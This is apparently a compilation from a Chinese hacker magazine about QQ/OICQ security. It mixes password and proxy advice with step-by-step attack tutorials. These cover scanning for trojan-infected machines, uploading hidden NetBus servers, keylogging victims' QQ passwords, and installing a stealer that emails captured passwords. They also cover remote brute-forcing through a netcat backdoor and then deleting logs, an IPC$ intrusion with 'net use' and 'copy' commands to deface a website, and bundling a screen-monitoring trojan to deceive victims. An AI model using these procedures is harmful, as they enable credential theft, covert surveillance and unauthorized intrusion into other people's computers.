在网吧或几人共用一台的电脑上，你可增加一个本地信息口令，这样的话，对方便知道你的QQ的密码也进不了你的账号。我常注意到许多网友并不太重视这个口令，认为有QQ密码就够了，尽管QQspend宣称能看所有版本的聊天记录。但实际上，对这种本地信息口令保护的账号只能看到好友名单，而聊天记录则是一堆乱码。其实我们有一种一了百了的方法，就是彻底删除QQ安装目录下以你账号命名的文件夹的所有内容，这样一来你可高枕无忧了。下次登录QQ的时候，服务器又会把你的基本资料传送回来。不过这种方法有个弊端，就是你想看一下自己的聊天记录，也同样没有办法了。当然我们可以导出需要的聊天记录，然后发送到我们的邮箱。

### 2、对付窃取密码者

首先要从自身抓起，保管好自己的密码，不放在易被人发现的地方，以免给恶意者提供可乘之机。另外选取密码时，应尽量选取那些不易破解的密码。一个好的口令应当至少有7个字符长，不要以个人信息作为密码（如生日、名字等）。口令中要有一些非字母和非数字（如标点符号等）、控制字符等，即口令不要以纯字母或纯数字形式出现。再就是定期更改口令，永远不要对自己的口令过于自信，也许就在无意当中泄露了口令，定期更改口令会使自己遭受攻击的风险降到一定限度之内。

对于那个Passsniff软件，真是防不胜防。它可以在Windows启动时自动或是手动启动，神不知鬼不觉地监视你输入密码，当前可行的办法就是查看C盘根目录下的log.txt文件是否存在并记录了你的密码和本地信息口令，但这不是万全之策，很有可能出现类似软件把log.txt文件放到其他目录下再换个名，也是无法预料的。

### 3、保护QQ

可能有朋友说，装个防火墙不就完了。确实防火墙能防止一些病毒程序、黑客木马程序的入侵以及IP探测和攻击。但是我在前面就讲过QQ炸弹大多数遵循TCP/IP协议以正常途径发送，这些防火墙也总不至于更改TCP/IP协议，拦截正常的信息吧。如果这样的话，你的QQ也别想用起来。

我曾经对一些网吧以及一些局域网内的机器进行轰炸，这些网吧和局域网应该总有一个普通或是更高级的防火墙吧，但几乎我每次都成功了。

那怎么办呢？QQshield闪亮登场了，看名字就知道是QQ盾牌的作用，作者宣称它能在几秒钟内消除上千条信息，不过，效果不尽如人意。

下面还有个很好的办法能够防止炸弹攻击。

Sockscap这个软件听说过没有？我是说早期很多的169网的主机用户可能知道它的大名，它是免费上网或是低费上网的一个软件。它通过设置一个Socks或Sock4代理服务器地址，再添加你所要运行的程序，如QQ.exe。这样程序首先通过代理再上Internet，对方通过QQ探测程序看到你的IP其实是那个代理地址，即便是对方来轰炸，也完全与你无关了。

Sock代理倒是不多（在后面我们将给大家提供一些代理的地址），在有些网站就免费提供，或者你自己亲自用代理猎手搜索一下吧。

谈到这，有人会说不就是隐藏自己的IP吗？是的，但隐藏IP并不是件容易的事，Anonymous Cookie、DC Internet Services Pack等隐藏本地IP的软件还不是很有效，往往不能达到隐藏IP的目的。

## 主题乐园

## QQ高级防范

### 第一招 防范IP探测

别人要攻击你，必须首先找到你的IP地址，所以隐藏IP地址是很有必要的。

- 1）IP如何被探测
- 由于QQ采用的是UDP数据包通讯，攻击者只要向你发送一个信息包，他就可以通过监视UDP数据包来获得你的IP和QQ的端口号。从理论上说，在直接通讯的模式下，想避免攻击者发现你的IP地址是十分困难的。
- IP探测的另一个方法是端口扫描。QQ的通讯端口值默认情况下是8000，攻击者可以通过连串扫描某一地址段的8000端口，来获得那些正在使用QQ的IP地址。

- 2）防范IP探测
- 防范IP探测比较可行的方法是阻止攻击者与你直接通讯。在QQ的个人设置里修改身份验证默认值为“需要身份认证才能把我加为好友”，这样攻击者也还是可以通过某些特殊的信息发送软件给你通讯，所以你还应该在系统参数设置里把“拒绝陌生人消息”选上。
- 通过代理服务器上QQ或者隐身登录。通过代理服务器上QQ，这样你就可以隐藏自己的真实IP，而攻击者所看到的IP只是代理服务的地址。隐身登录QQ后发送的消息是通过腾讯的服务器中转的，这样攻击者获取的IP也只是腾讯服务器的地址。
- 修改QQ通讯端口默认值，它的默认端口是8000，通过它可以避免被攻击者扫描到IP地址。
- 试着使用一些隐藏IP的软件来把自己的IP隐藏起来（如winspoof），但效果不好。

### 第二招 防范消息炸弹

用QQ就是这样，得罪了人，会被别人炸，什么人都没有招惹，还是会被炸。

- 1）消息炸弹的危害
- 被炸的滋味不好受吧，不能正常地上网和聊天，网络速度越来越慢，系统资源越来越少，甚至断线死机，最重要的是会气坏身体，这可是革命的本钱啊。

- 2）防范消息炸弹
- 不要轻易添加陌生人，不要在QQ上四处惹是生非。
- 在腾讯新推出的版本里面采取了一定安全措施阻止信息炸弹，所以要防止信息炸弹最好是常常升级QQ版本，并且在设置里面设定“拒绝陌生人消息”，这样你就可以避免被这些垃圾信息所骚扰。

### 第三招 防范密码盗窃

- 在网吧等公共场合使用QQ后，离开时一定要记得把QQ密码和本地消息记录文件清除掉，最好再更改一次密码，以防有程序记录你的密码。
- 运行QQ注册向导之前，将它的系统文件夹复制并且改名存放。
- 离开网吧的时候将系统文件夹删除，然后把改名存放的原系统文件夹改回来。
- 必须到腾讯主页去申请密码保护功能，申请网址：service.tencent.com/reg/register.shtml。这样即使别人盗用了你的密码，你也可以通过密码保护拿回你的密码。
- 不要轻易打开那些陌生可疑的文件，特别是EXE文件。它们很可能是木马程序或者被捆绑了木马程序的文件，如果电脑不小心中了木马，再长再复杂的密码都是无用的。

## 主题乐园

## 黑客X档案2002-2003年合订本


这是一个黑客工具综合应用的实例。

首先了解一下QQ密码丢失的几种情况：

- 1）密码被一些OICQ工具截取，这类工具已经很普遍。
- 2）在线破解。可能性比较小，一般8位的字母数字混合密码就很难被解决了。这类工具比较少。
- 3）本机破解。至今本人看到过一个工具，此工具可以一秒20000个密码的测试能力暴力破解机器使用过的OICQ密码。
- 4）和第一个方法一样，使用木马或者键盘工具直接记录键盘截取密码！

### 1、准备工具：

这次试验使用的工具有：superscan203，netbus1.7英文版，天网防火墙，冰河2.2版本，QQLog0612。另外可以准备足够的攻击武器。这样万一碰到对方或黑客攻击，到时候可以使用准备好的武器，如蝴蝶炸弹、IPhacker、UDPflood、winnuke……等一系列的菜鸟攻击工具。

### 2、开始行动

运行天网防火墙，这样以免你在扫描机器的时候受到另外黑客的攻击。

运行superscan203和冰河2.2版本（冰河的教程在本刊前面的《牧马记》中有详细的图解介绍）。冰河设置的默认端口为7626。

我们首先要通过Superscan来扫描是否有机器中了冰河木马，在Superscan的两个扫描端口输入框中都填上冰河默认的端口号7626，同时也在扫描IP地址的范围框中输入预扫的IP范围。

注意：你所扫描IP段中的机器或许没有中冰河的，所以不要以为自己做错了，你可以选择其他IP段继续扫描！

当发现了可能中了木马的IP后，我们就把该IP地址添加到冰河中，然后用冰河来连接对方的机器。

扫描后，可能会碰到以下几种情况：（冰河连接结果会提示的）

- 1）主机没有响应
- 2）口令错误，拒绝服务
- 3）正在解释命令，冰河远程端版本在1.2以下
- 4）不能和主机连接
- 5）发送命令成功……desktop……

可能性最大的是连接成功，另外如果主机没响应你可以重新点击左上的第一个按钮，点“确定”重新连接一次。没有响应的原因也有可能是网络速度太慢。

提示：在扫描到的电脑里面大多数为网吧里的电脑。连接成功以后出现对方主机上面的盘符，你都可以点击查看。网络的速度影响很大，主机很可能突然没有响应，你可以重新连接，或许命令发送多次。好了，现在要正式进入密码截取工作了。

下面我们总共使用了3种密码截取方法。

- 1）就是点击冰河的“命令控制台”，查询冰河本身已经记录下的密码。

这里都是记录密码的，而且有键盘记录，都可以试一下。在记录中只有少量的QQ密码被记录下来。键盘记录一般都未启动，你可以马上启动键盘记录或者查看键盘记录。根据经验，一般有2到3个的QQ密码会被记录在冰河里面，其他的都未能被记录。

- 2）上传netbus。

netbus也是木马，不过它有一些很好的功能冰河没有。虽然netBus比较大，不过你向对方传个500KB的东西上去根本不会被人察觉。我一般都把netbus服务器的名字改掉后上传。

为了上传简单点，你只要到冰河的“文件管理器”点击右键，然后选择“文件上传……”。接下来你就可以选择netbus服务器所在的路径。上传过程中可能会出现停止响应的问题，这与网络速度有关，只有重新传了。不过一般上传都会成功，出现一个进度条以后就开始上传了，上传到C:\下好了，没人会注意的。上传完毕以后右键点击上传的文件，远程打开。记着要选择“隐藏窗口”的方法开启。

然后就开始实时监控对方的电脑了。下面介绍netbus的超级功能。

在netbus客户端监控窗口“Active Windows”中会出现对方正在运行的程序，如果对方已经开了QQ，密码就已经输入过了，键盘记录也有可能记录不下来。这个时候怎么办呢？很简单，在“Active Windows”窗口中选择你要关掉的程序，如点击QQ，然后点击“Kill Wind”按钮，远程遥控关了对方的QQ，让对方重新启动QQ。这下我们就能从键盘记录中知道对方的密码了。不过，如果对方QQ是勾选了“记住密码”这个复选框的话，你就没辙了。

- 3）如果对方主机是在网吧或者是很多人共用一台机器，那你就有机会获取更多的QQ密码，如果用冰河的键盘记录也太麻烦了，直接上传一个QQ密码截取的工具吧。上传你准备好的QQLog0612，选择了这个工具，因为这个QQ密码截取程序会自动生成并保存在C:\下面，具体使用方法下载以后里面有说明书。有人会说为什么不用其他工具，有一些工具可以发送密码到信箱里的！是的，很多工具是提供了信件发送功能，不过可靠性很差，如果你喜欢也可以试一下！

拷贝QQLog0612的三个文件到Windows下以后运行，即可等待下次的丰收。


这是一个能够截取OICQ密码并把密码定量发送到指定邮箱的程序，特别适合在网吧使用。

第一次运行本程序时，你应该填写一个邮箱，然后填入一个数字；当程序偷取到你所指定的密码数量时，就把这些密码发送到你指定的邮箱。在这个程序被删掉以前，它一直会源源不断地向你提供别人的密码。不过，本软件不适合在Windows 2000上使用。你所指定的数字最好不要过小，否则你将会很频繁地收到邮件，建议至少应在20以上。

邮箱的指定没有任何限制，只要你所指定的这个电子邮件地址存在，它就会把密码送到这个邮箱。（邮箱地址理所当然应该填写你自己的）。

很多同类软件都是在系统启动后自动启动，就是说，这些软件是时刻都在运行的，所以占用了一定的资源。但是本软件是在OICQ启动时启动，截取到密码后自动退出的。另外，只要运行过一次，你就可以把程序从默认位置上删掉，因为本程序已经自动复制到了C:\PROGRAM FILES\OICQ下。配置文件保存在……

## 黑客X档案2002-2003年合订本

## 主题乐园

`c:\program files\oicq\dat\oicqcfg` 中，就是你第一次运行时指定的配置，你可以编辑此文件，但是千万不要改变它的结构。

该软件是同类软件中最易用、最有效的一个了。下面我们来仔细讲解一下它的用法。

在第一个输入框中，你所指定的数值，就是当此程序窃取到这个数值的密码时发送到你邮箱的值，默认的值是 100。其实 100 这个值并不高，很多朋友抱着试一试的心情来用这个软件，所以他们都填的是 1 到 5 的小数字。结果他们每天都要收到大量的邮件，有一个朋友在网吧的每台电脑上都安装上这个软件，并且填的都是 1，他现在每天要收到 800 封邮件。如果你不想遇到这种情况，就把这个数值填得大一点。

### 如何指明 OICQ 可执行文件？

增加这个功能是为了对付 OICQ 的所有版本。以前的 OICQ 版本，它的执行文件是 OICQ.EXE，但是现在 0310 及其以上版本的执行文件是 QQ2000.EXE 及 QQ2000B.EXE。如果遇到 OICQ 目录中既有 OICQ.EXE 又有 QQ2000.EXE 的情况下，在 WINDOWS 桌面的快捷启动或开始按钮里面，或桌面上一般都有 OICQ 快捷启动方式，用右键查看属性，可以看到它的指向文件。

你将选择的就是这个文件。

如果将来 OICQ 的版本换了其它的执行文件名，只要你把这个文件名改为 OICQ.EXE 或 QQ2000.EXE，并且修改一下此快捷方式的指向文件就可以使用了。至于最下面的一个输入框，当然应该填自己的邮箱，密码是窃取到这个邮箱里去的。

下面介绍“OICQ 密码窃取器”的卸载方法：

首先假定你的 OICQ 的安装目录是 `C:\PROGRAM FILES\OICQ`（OICQ2000 0425 的默认安装目录是 `C:\PROGRAM FILES\TENCENT`）。

如果你想卸载的是 1.4 及以前的版本，进入 `C:\PROGRAM FILES\OICQ`，删除 OICQ.EXE（或 QQ2000B.EXE），把 O.EXE 改名为 OICQ.EXE（或 QQ2000B.EXE），然后进入 `C:\PROGRAM FILES\OICQ\DAT`，删除 OICQCFG 就可以了。

如果你想卸载的是 1.4 版本，除了要做以上的工作外，还须进入 WINDOWS 的系统目录（WIN95/98 的系统目录是 `C:\WINDOWS\SYSTEM`，WINNT/WIN2000 的系统目录是 `C:\WINNT\SYSTEM32`），删除 OICQCFG 和 SMTPCFG，有时候没有后一个文件，这是正常的。

画蝶是 DOS 界面的远程破解 OICQ 的工具，破解速度为 2 秒一个密码（为了躲过腾讯的限次认证）。其中 oicq.exe 是主程序，password.ini 文件是字典文件，里面储存着你将使用的密码。uin.ini 是 OICQ 号码列表。破多个密码只需要输入 1234567-1235000 一连串的号码。单个号码只须输入 1234567-1234567 就可以了。

画蝶文件目录

当字典用完或者破出密码来后，会记录在画蝶目录下的 result.txt 文件里面。

下面我们来详细讲解画蝶如何配合其他工具完成密码破解。

需要配合的工具：远程控制工具一个或者多个，要求具有上传下载和远程执行功能。附加 nc99 或者 winshell 木马。这里我们同样用“冰河”来配合工作。

- 1）首先连上中了冰河的机器（最好是 98 的，如果是 NT/2000 的需要有 ADMIN 权限，不过也很好弄到），然后把你配置好的画蝶传上去，包含做好的字典。
- 2）上传 nc99 或者 winshell（玩过 unicode、cgi、idq、ida、IIS 溢出漏洞的朋友该知道这个老木马吧）。
- 3）运行 nc99 或者 winshell（winshell 运行需要加参数，随便输入一个大于 1024 小于 65535 的数字都可以，如：12345）。注意，要在后台运行哦，也就是隐藏窗口。
- 4）用 WIN 自带的 telnet 连接，nc99 的默认端口是 99，端口就填 99 即可。如果上传的是 winshell，就输入你填写的端口。终端类型无所谓，随便它。但是要把“终端-首选-本地响应”选上。
- 5）连接 OK，telnet 是远程 DOS 界面，就和你操纵自己的 DOS 一样。还不快运行画蝶。
- 6）破完密码后把生成的 result.txt 文件下载回来即可。
- 7）破完后记得把日志也删除哦。要做到来无影去无踪。
- 8）结束。

这里我们讲解如何破解针对“QQ 隐身穿墙术”的黑客软件。带“隐身穿墙术”的 OICQ 黑软不是直接通过修改 OICQ 的主程序来完成的，它是通过一个独立的执行文件，启动该文件会自动调用 OICQ 主程序文件（即 OICQ2000B.EXE），在 OICQ 出现用户登录提示框界面时，可以跳过验证码这一步，直接进入 OICQ 的主界面（条形状聊天界面）。无论您设置的 OICQ 密码有多么缜密、位数有多么长，对这款黑软来说一点都没有作用。一句话，密码已不能确保平安了！您看到这里，是不是觉得这款软件实在太恐怖了。其实它也有它的局限性，下面就一一道来。

这款 OICQ 黑软跳过验证码直接登录，只能在如下情况下才能成功：

在 OICQ 用户登录提示框，从下拉菜单中选择 OICQ 号码，然后点击“登录”就行了。如果是用 OICQ 的“注册向导”登录是无效的。既然是这样，防止别人非法登录也就有办法了。

首先，找到 OICQ 所在的文件夹，删除文件夹中的 oicq2000.cfg。为什么要删除这个文件呢？oicq2000.cfg 是保存 OICQ 用户登录提示框所出现的 OICQ 号码的。也就是说，如果您使用这台电脑进行了 OICQ 用户登录，那么下次启动 OICQ，出现用户登录提示框时，下拉菜单就有您的 OICQ 号码了，能保存下来！

其次，OICQ 把每位用户的信息都单独保存在一个文件夹里，文件夹的名称就是您所使用的 OICQ 号码，找到后也应该将它删除。

做好了上述两步，这款 OICQ 黑软就完全失效了。如果您是在网吧使用 OICQ 聊天的话，那您可能会遇到无法完成上述内容的删除操作，下面就讲述一下“无敌穿墙”的绝招吧。

由于安装了“网吧管理专家”一类的管理软件，会把许多操作锁定，如：无法使用资源管理器和程序快捷菜单。对于一般的用户，就会有心无力，无法完成上述内容的删除操作。其实，不用理它，跟我操作吧！

在 IE 浏览器的地址栏内输入如下内容，如：

`C:\`［回车］

您就会看到 IE 浏览器变成了一个用“打开”方式打开的资源管理器，这时，您就可以对 C：盘进行任何操作，如：删除、复制、进入子文件夹等操作。找到 OICQ 所在的文件夹（OICQ 一般安装在 `C:\Program Files`，如果没有找到，您可以再试试其它文件夹和其它驱动器），完成上述删除操作后您就可以放心地离机了。

通过 HTTP 代理上网能让我们的 QQ 更安全，而且还能绕过屏蔽了 QQ 上网端口的局域网服务器。这个软件就是 Socks Online 软件（不光可用 QQ，还可以用 FTP、Email 等）。

该软件是一款绿色软件，不需要进行安装，只需要直接双击运行 SocksOnline.exe 就可以了，另一个文件 CommOnline.exe 会自动在后台运行。如果你的代理服务器需要认证的话（也就是需要用户名和密码），在启动的过程中会提示你“您的 HTTP 代理服务器要求验证”，输入用户名和密码以后，软件启动完毕，界面如图。

从界面上可以看到本地端口占用的是默认的 SOCKS 端口 1080，如果你的计算机该端口已经被占用，启动会失败，并且会提示你端口被占用，这个时候你就需要更改该端口号，然后重新启动服务。一般情况下 1080 端口是没有被占用的，所以我们不需要去更改。

现在我们运行 QQ，进入【系统参数】，选择【网络设置】标签（如果是注册向导的话，在网络设置这页），选上“使用 SOCKS5 代理服务器”，在“代理服务器地址”栏填入 localhost 或者 127.0.0.1，在“端口号”栏填入 1080。注意不需要填“被验证用户名”和“用户密码”这两项。填写完毕，你可以点“测试”按钮进行测试，一切正常的话，将会提示代理服务器工作正常。赶快点“确定”吧，重新上线，灰色的 QQ 终于亮起来了！

最后运行 SocksOnline.exe 即可。

小技巧：将该程序快捷方式放入启动项目中。

- 代理地址：211.20.11.155:7718 SOCKS5
- 211.20.13.3:7718 SOCKS5
- 211.20.13.4:7718 SOCKS5
- 211.20.15.34:7718 SOCKS5
- 211.21.2.253:1813 SOCKS5
- 211.21.32.171:7718 SOCKS5
- 61.72.76.11:12345 SOCKS5
- 61.72.71.82:12345 SOCKS5
- 61.72.80.163:12345 SOCKS5
- 61.72.76.198:12345 SOCKS5

## 你是男是女？

隐“性”就是把用户信息窗口中“性别”一栏显示为空的。

先关闭 OICQ，在 OICQ 所在目录，找到扩展名为 .cfh 的文件，如当前用户 OICQ 号码是 12345，就是 12345.cfh 文件。备份后用记事本打开它，可以看到里面就是个人资料。

想办法把那个“男（或者女）”字替换掉就可以了，于是直接把输入法切换到全角，输入一个全角的空格把性别替换掉，关闭记事本，保存文件。好了，打开 OICQ，恭喜，您得到的是空白的资料框。但是目的还没有达到，这是因为记事本只能修改文本文件，而这个 cfh 文件是 16 进制的，用备份文件恢复后，改用支持这些格式的编辑器再试试，如 UltraEdit 或 EditPlus。

看到的小格子其实是半角空格，在删除“男（或者女）”字时很容易破坏掉，用半角空格补回去就行了。好了，再把输入法切换到全角中文状态，把“男（或者女）”字替换成全角空格。

再次打开 OICQ，就可以看看我们的成果了。

## 黑客与软件

很多优秀的黑客软件都很受欢迎，为什么？因为它可以快速高效地解决我们常遇到又需要解决的问题，而且使用和操作都很简单，就算是对电脑操作系统知之不多的初级网友也能轻松上手。本期主题乐园为广大初涉黑客的各位初级朋友们准备了流光、溯雪、SuperScan、Web Cracker 等一系列知名黑软的介绍和使用方法。当然，不仅于此了，优秀的黑客软件还有很多，需要我们不断地学习和发现。限于篇幅也不能在此一一介绍了，其它知名黑软详见专题“知名光盘（知名黑软）”栏目。

在此，我认为很有必要重复一点：使用不是目的，学习才是关键。更需要注意的是不要去破坏、窃取、影响他人。这是初学者最容易犯的错误。黑客是什么？我也说不好，但绝对不是使用这种非常规软件乱搞破坏。

## 流光之五线破解

可以说，在国内的众多软件中，流光是一款界面非常纯粹的软件，在国内而言，可谓顶级黑客软件了。好了，废话少说，还是说说流光的使用方法吧！当然，本人技术所限可能写得不好，那就请各位大虾多多指教。

超级菜鸟先打开流光，如图 1 就是流光的界面，怎么样？这里我们主要只是讲 IPC$ 的入侵法。所以只用 ME 和 98 的各位好友就先别看了吧。因为 IPC$ 探测只能在 NT 和 2000 下使用，所以如果真的喜欢，就装个 NT 或者 2000 吧。

- 1. 按 Ctrl+R 出现 IP 对话框（如图 2）；
- 2. 选择要扫描的 IP 段，然后选“NT/98”主机，即你要扫描的主机类型；
- 3. 查看扫描结果。
- 4. 按热键 Ctrl+F9，如图 3；
- 5. 现在你得到了 Admin 用户和密码了，接下去怎么做呢？
- 6. OK，这里假设 IP：192.168.0.168，URL 是 `http://www.****.com.**`，现在我们要做的是把它的主页黑掉。那我们就用 IE 打开 `http://www.****.com.**`。如图 4；
- 7. 我们用了用户名和密码后，知道了主机的存放位置，下一步（也是最重要的一步）要做的就是进入它的机子，把我们做好的页面拷到那里去。如图 6；

IPC 其实就是 NT 和 2000 的默认共享，其实所谓的 IPC 入侵也可以叫做共享入侵法。那么具体操作是怎么样呢？好，先来看：

看到的是一张完整的页面，但是如果再加入以下命令的话会怎么样呢？`http://www.****.com.**/i.ida` 如图 5；图中的 `C:\Inetpub\WwwRoot` 即就是它的主页存放的位置。

```text
net use \\192.168.0.168\ipc$ "admin168" /user:"administrator"
copy f:\hacker\index.htm \\192.168.0.168\c$\inetpub\wwwroot\ --> 回车
是否改写原文件 (Yes/No/All)? Y ------> 回车
```

好了，这样，就完成了一次入侵。看看原来的主页是什么样的？OK！是不是这样啊！如图 7：（图 5、图 6、图 7 见下页）

## SuperScan——扫描王

对一个网络管理员或者网络攻击者而言，一款好的扫描软件是必不可少的。随着互联网的逐步普及，各种各样的扫描软件也就传播开来，随便去一个软件下载站点看一看，扫描软件至少有几百个，但是，又有多少软件值得去利用？这些软件到底功能如何？对一般的使用者而言，大多的软件反而是一个麻烦，因为不知道怎样去选择！

- 1. 功能强大，这里指的不是功能很多，而是指软件提供的功能都可以取得很好的效果；
- 2. 尽量在一个相同的领域做到全面；比如，扫描系统漏洞的软件最好能顾及该系统的所有版本和大部分常见漏洞；
- 3. 负责的编写者；软件推出以后，万事大吉的编写者大有人在，看看软件的升级历史就可以知道编写者是不是负责的。

根据这个标准，我们可以选择一些比较好的扫描软件。下面，给大家专门介绍一款 IP 和端口扫描软件，大名鼎鼎的 SuperScan。

对于 SuperScan，可能我们一直有一个误会，以为它只是一个端口扫描软件；其实，除了端口扫描，它还有很多其他功能，现在我们来具体看看。

### 一、SuperScan 功能介绍

- 1. 通过 Ping 来检验 IP 是否在线。
- 2. IP 和域名相互转换。
- 3. 检验目标计算机提供的服务类别。
- 4. 检验一定范围目标计算机是否在线和端口情况。
- 5. 通过工具目录或列表检验目标计算机是否在线和端口情况。
- 6. 自定义要检验的端口，并可以保存为端口列表文件。
- 7. 软件自带一个木马端口列表 trojans.lst，通过这个列表可以检测目标计算机是否有木马；同时，我们也可以自己定义修改这个木马端口列表。

我们可以看出，这款软件几乎将与 IP 扫描有关的所有功能全部做到了，而且，每个功能都很专业。

### 二、下载安装

SuperScan 解压后就可以使用，没有安装程序，是一款绿色软件。

### 三、软件具体使用

在使用软件之前，我们先来看软件的全貌。（如图一）

界面较复杂，我们根据各项功能来介绍使用。

1、域名（主机名）和 IP 相互转换

这个功能的作用就是取得域名，比如：163.com 的 IP；或者根据 IP：202.106.185.77 取得域名。

在 SuperScan 里面，有两种方法来实现此功能：

#### 1）通过 Hostname Lookup 来实现（如图二）

在 Hostname Lookup 的输入框输入需要转换的域名或者 IP，点击“LookUp”按钮就可以取得结果。如果需要取得自己计算机的 IP，可以点击“Me”按钮来取得；同时，也可以取得自己计算机的 IP 设置情况，点击“Interfaces”取得本地 IP 设置情况（如图三）。

2）通过 Extract From File 实现

这个功能通过一个域名列表来转换相应 IP 地址。

选择“Extract from file”，点击“->”按钮，选择域名列表，进行转换，出现以下界面（如图四）：

#### 2、Ping 功能的使用

Ping 的主要目的在于检测目标计算机是否在线和通过反应时间判断网络状况。

在图五的“IP”选项的“Start”输入框里填入起始 IP，在“Stop”输入框里填入结束 IP，然后，在“Scan Type”选项里选择“Ping only”，点击“Start”就可以检测了。

在以上的设置中，我们可以使用以下按钮达到快捷设定目的：选择“Ignore IP zero”可以屏蔽所有以 0 结尾的 IP，选择“Ignore IP 255”可以屏蔽所有以 255 结尾的 IP；点击“PrevC”可以直接转到前一个 C 网段；选择“NextC”可以直接转到后一个 C 网段；选择“1..254”直接选择整个网段。同样，也可以在“Extract From File”窗口通过域名列表取得 IP 列表。

## 主题乐园


图五

在 Ping 的时候，可以根据网络情况在“Timeout”输入框里设置相应的反应时间。一般采用默认就可以了，而且，SuperScan 速度非常快，结果也很准确，一般没有必要改变反应时间设置。

#### 3、端口检测

端口检测可以取得目标计算机提供的服务，同时，也可以检测目标计算机是否有木马。现在，我们来看看端口检测的具体使用。

- 1）检测目标计算机的所有端口

如果检测的时候没有特定的目的，只是为了了解目标计算机的一些情况，可以对目标计算机的所有端口进行检测。一般不提倡这种检测，因为：

- （1）它会对目标计算机的正常运行造成一定影响，同时，也会引起目标计算机的警觉；
- （2）扫描时间很长；
- （3）浪费带宽资源，对网络正常运行造成影响。

在“IP”输入框里输入起始 IP 和结束 IP，在“Scan Type”选项里选择最后一项“All Ports From 1 to 65535”，如果需要返回计算机的主机名，可以选择“Resolve Hostname”，按“Start”开始检测。（如图六）

图六是对一台目标计算机所有端口进行扫描的结果，扫描完成以后，点击“Expand all”展开窗口，可以看到扫描的结果。我们来解释一下以上结果：第一行是目标计算机的 IP 和主机名；从第二行开始的小圆点是扫描的计算机的活动端口号和对该端口的解释；此行的下一行有一个方框的部分是提供该服务的系统软件。“Active hosts”显示扫描到的活动主机数，这里只扫描了一台，为 1；“Open ports”显示目标计算机打开的端口数，这里是 10。


图六

- 2）扫描目标计算机的特定端口（自定义端口）

其实，大多数的时候不需要检测所有端口，只需检测有限的几个端口就可以了，因为我们的目的只是为了得到目标计算机提供的服务和使用的软件。所以，这里可以根据个人目的的不同来检测不同的端口。大部分时候，我们只要检测 80（Web 服务）、21（FTP 服务）、23（Telnet 服务）就可以了，即使攻击，也不会有太多的端口检测。

点击“Port list setup”，出现端口设置界面（如图七）：


图七

在图七的界面中，在“Select ports”选项窗口里双击选择需要扫描的端口，端口前面会有一个“√”的标志；选择的时候，注意左边的“Change/Add/Delete port info”和“Helper apps in right-click menu”，这里有关于此端口的详细说明和所使用的程序。我们选择 21、23、80 三个端口，然后，点击“Save”按钮保存选择的端口为端口列表。“OK”回到主界面。在“Scan Type”选择“All selected ports in list”，按“Start”开始检测。

使用自定义端口的方式有以下优点：

- （1）选择端口时可以详细了解端口信息；
- （2）选择的端口可以自己取名保存，有利于再次使用；
- （3）可以根据要求有的放矢地检测目标端口，以节省时间和资源；
- （4）根据一些特定端口，我们可以检测目标计算机是否被攻击者利用，种植木马或者打开不应该打开的服务；

- 3）检测目标计算机是否被种植木马

自从 BO 出现以后，国内出现了最有影响的冰河木马，然后，出现很多功能类似的木马，比如：网络神偷、NetBull 等。针对木马，现在有很多清除工具，除了一般的杀毒软件以外，还可以使用专门清除木马的 The Cleaner 等软件。如果只是对木马的检测，完全可以用 SuperScan 来实现，因为所有木马都必须打开一定的端口，我们只要检测这些特定的端口就可以知道计算机是否被种植木马。


图八

在主界面选择“Port list setup”，出现端口设置界面，点击“Port list files”的下拉框选择一个叫 trojans.lst 的端口列表文件（如图八），这个文件是软件自带的，它提供了常见的木马端口，我们可以使用这个端口列表来检测目标计算机是否被种植木马。

要注意的是，木马现在很多，而且创新与更新得也比较快，因此，有必要时常注意最新出现的木马和它们使用的端口，随时更新这个木马端口列表。

### 四、总结

SuperScan 功能强大，但是，在扫描的时候，一定要考虑到网络的承受能力和对目标计算机的影响。同时，无论目的如何，扫描都必须在国家法律法规允许的范围进行。

## 让人害怕的网络精灵

网络精灵是非常好的一匹木马！它的特点是利用浏览器进行入侵，远程屏幕实时监视。

下面来看看这匹木马是如何工作的，现在放这匹马出来溜溜。

看着对方的屏幕，他所有的反应都在你的掌握之中，当然你也可以动手对新手进行实时、亲切指导交流。（呵呵，而且不管他愿不愿意。）

只有亲身用过，才会发现网络精灵出色之处。


## 一、扫描端口：使用专用扫描工具 SuperScan30

扫描端口工作其实很简单，只是输入“IP 起始地址－设定端口－确认扫描”就可以轻松完成。


## 二、网络精灵操作：屏幕监视、设定进入口令

网络精灵 3.0 的图标：→ 你也可以使用客户端进行控制。但好奇心别太大，服务端运行后会自动消失！（服务端正常使用前需要用捆绑软件合并，否则骗不到别人）


- 1. 屏幕监视：我很少使用网络精灵的控制端，一般只用 IE 浏览器完成对远程机器的访问，这是精华所在。
- 2. 在 IE 的地址栏输入：`http://目标主机的IP:7306` 输入网址后一般会出现以下 4 种情况：
  - a. 该页无法打开（放弃）。
  - b. 版本不同（继续放弃）。
  - c. 需要口令（还是放弃；有兴趣你可以慢慢去解）。
  - d. 直到网页上出现如上图的选项：


这里，介绍一下实时监控的操作：点击远程终端，照下图提示操作后，稍等几秒就会有个桌面在你眼前出现。16 色屏幕会自动刷新（2、3 秒延迟），并且用鼠标可以做到你指哪他打哪，找到点入侵时的感觉没有？虽然简陋些，但是这对于一个木马来说做到这点已经非常不容易。

还是别把你的鼠标放在他的桌面上，对方会发现鼠标失灵的时候，搞不好会重启，就没得测试了。

其实这时我们完全可以放弃客户端的使用，有一个浏览器 IE 就足够用了，你会发现所有的操作都是那么直观！

- 2. 设置进入口令：有的时候出门在外，想知道现在使用自己主机的朋友在做什么，网络精灵就可以派上用场了。不过为了安全性我们需要设置远程登录口令，禁止闲人登录！


经过一番设置之后计算机就相对安全了，知道口令后就能进入网络精灵的后门。

- 网络精灵的清除、控制：
  - a. 自带的卸载命令，如服务端未更名，则在运行里输入：`Netspy.exe /remove` 点击“确定”，就可以完成卸载。
  - b. 杀毒软件（现在基本上最新病毒库的杀毒软件都可以）。
  - c. 修改注册表。运行 regedit，查找下面的键值（如右图）。
    - 第一步：关闭 netspy 进程。进程管理类工具很多。
    - 第二步：删除 netspy 选项（默认未修改时）。
    - 第三步：重新启动计算机。
  - d. 设置口令控制。


以上是它的使用方法和功能介绍。无论你的使用目的如何，都必须在国家法律法规允许的范围进行。

## 暴力破解

溯雪是一款非常知名的软件，事实上溯雪本身的帮助文件是写得很不错的，也许是大家不太习惯于看帮助或不是很理解。下面是一个非常简单、详细的实例破解教程，相信新手们看了也会掌握溯雪的运用了。

- 1. 下载溯雪，这里我选用的是 7.0 英文版。
- 2. 找个站点，我选的是 WWW.xxx.NET 的信箱。
- 3. 启动溯雪，在地址栏输入 WWW.xxx.NET。溯雪本身可以作为浏览器使用。
